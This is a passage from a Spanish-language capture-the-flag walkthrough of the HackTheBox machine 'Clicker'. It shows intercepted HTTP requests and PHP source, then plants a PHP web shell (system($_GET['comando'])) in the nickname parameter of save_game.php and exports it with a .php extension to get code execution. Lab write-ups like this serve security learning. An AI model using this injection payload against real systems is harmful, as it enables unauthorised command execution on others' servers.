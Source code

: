 Si vemos le peticion, podemos ver que manda a llamar el archivo **exports.php** y tambien le manda la extension como parametro

```ruby
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_fl8moszw.txt
Cookie: PHPSESSID=f131nr6f06m2ocr5i3ap1gbt3h
Upgrade-Insecure-Requests: 1

threshold=1000000&extension=txt
```

Sabiendo esto, podriamos intentar cambiar la extension a PHP para intentar ejecutar codigo PHP, pero antes, en el archivo **exports.php** podemos ver que cuando se selecciona uno de los formatos para exportar, existe otro parametro con el nombre de **nickname** (ejemplo del codigo del formato TXT)

```php
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
```

Asi mismo en el archivo **authenticate.php** tambien podemos ver la existencia de ese parametro:

```php
if(check_auth($_POST['username'], $_POST['password'])) {
		$_SESSION["PLAYER"] = $_POST["username"];
		$profile = load_profile($_POST["username"]);
		$_SESSION["NICKNAME"] = $profile["nickname"];
		$_SESSION["ROLE"] = $profile["role"];
		$_SESSION["CLICKS"] = $profile["clicks"];
		$_SESSION["LEVEL"] = $profile["level"];
		header('Location: /index.php');
```

Haremos lo mismo que en la parte de CRLF injection, pero agregando ese nuevo parametro, por lo que la peticion quedaria asi:

```ruby
GET /save_game.php?clicks=29&level=0&nickname=<%3fphp+system($_GET['comando'])+%3f> HTTP/1.1
```
Y en la parte para exportar el resultado volvemos a interceptar la peticion y le cambiamos el formato a PHP
